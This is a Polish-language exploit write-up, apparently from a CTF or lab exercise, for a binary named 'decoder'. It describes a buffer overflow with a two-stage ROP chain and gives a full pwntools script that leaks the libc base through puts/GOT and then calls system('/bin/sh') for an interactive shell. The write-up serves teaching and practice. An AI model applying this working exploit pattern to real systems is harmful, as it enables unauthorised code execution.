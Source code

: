 # Writeup do Exploita - `decoder`

## Cel

Celem było wykorzystanie luki w programie `decoder` do przeprowadzenia ataku, który:
1. Wypisze adres bazowy `libc`.
2. Uruchomi powłokę `/bin/sh`.

### 1. Wyciek adresu `libc`

Aby uzyskać adres bazowy `libc`, wykorzystano funkcję `puts()` oraz tablicę GOT (Global Offset Table).

### 2. Wykonanie powłoki `/bin/sh`

Po uzyskaniu adresu `libc` program obliczał adres funkcji `system()` i znajdował ciąg `/bin/sh`. Następnie skonstruowano łańcuch ROP, który:
- Umieszczał wskaźnik do `/bin/sh` w rejestrze `RDI`.
- Wykonywał instrukcję `ret`, aby przejść do wywołania funkcji `system()`.

## Kod Exploita

Oto szczegółowy kod exploita:

```python
#!/usr/bin/env python
from pwn import *

##### SPECIFY BINARY #####
elf = context.binary = ELF('../src/decoder')
libc = ELF('../src/lib/libc.so.6')

context.terminal = ['gnome-terminal', '--tab', '--']

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        ##### SPECIFY SERVER AND PORT #####
        SERVER = 'localhost'
        PORT = 1337 
        return remote(SERVER, PORT, *a, **kw)
    else:
        return process([elf.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

import base64

io = start()

fill = b'A'*128  # Wypełnienie bufora

# Znalezienie adresów POP RDI i RET
POP_RDI = next(elf.search(asm("pop rdi; ret"), executable=True))
RET = next(elf.search(asm("ret"), executable=True))

# Pierwszy łańcuch ROP do wycieku adresu `libc`
ropchain = flat(
    POP_RDI,
    elf.got['puts'],
    elf.plt['puts'],
    elf.sym['_start']
)

payload = base64.b64encode(fill)
payload += b'===='*7  # Dodanie separatorów
payload += base64.b64encode(b'AA'+ropchain)

io.clean()
io.sendline(payload)
io.recvuntil(b'bye')
io.recvline()

# Odczytanie i obliczenie adresu `libc`
puts_leak = u64(io.recv(6).ljust(8, b'\x00'))
libc.address = puts_leak - libc.sym['puts']
log.success(f'libc base: {hex(libc.address)}')

# Przygotowanie drugiego łańcucha ROP do wykonania `/bin/sh`
BINSH = next(libc.search(b'/bin/sh\x00'))

ropchain2 = flat(
    POP_RDI,
    BINSH,
    RET,
    libc.sym['system']
)

payload = base64.b64encode(fill)
payload += b'===='*7
payload += base64.b64encode(b'AA'+ropchain2)

io.sendline(payload)

# Uzyskanie interaktywnej powłoki
io.interactive()
```